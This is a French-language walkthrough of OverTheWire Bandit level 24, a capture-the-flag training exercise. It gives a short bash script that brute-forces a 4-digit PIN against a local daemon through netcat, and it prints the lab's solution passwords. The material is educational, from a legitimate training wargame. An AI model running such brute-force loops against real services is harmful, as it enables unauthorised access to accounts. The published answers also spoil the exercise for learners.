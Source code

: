 ## Over-The-Wire -writeup-
### Bandit24 (bandit24@bandit.labs.overthewire.org)

---
#### Etape 1

Un daemon écoute sur le port 30002, il demande **le mode de passe actuel, ainsi qu'un code à 4 chiffres**.  
Il faut tester les 10000 combinaisons, **brute-force**.

On va créer un script qui va tester toutes les combinaisons.

`script.sh` sera son nom.

```bash
#!/bin/bash

for i in {0..10000};
do
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i";
done | nc localhost 30002 | grep -v Wrong
```

Ici, `grep -v Wrong` est rajouté parce que je sais déjà qu'à chaque tentative, le message d'erreur du daemon commence par **"Wrong"**.  
J'inverse donc le grep avec l'option **-v** *inverse*, pour ne retourner que les messages qui **ne contiennent pas "Wrong"**.

---
#### Etape 2

L'exécution du script.

```console
bandit24@bandit:/tmp/visages$ ./script.sh 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

---
Mot de passe: **uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**

[<< bandit23.md](bandit23.md) | bandit24.md | [bandit25.md >>](bandit25.md)
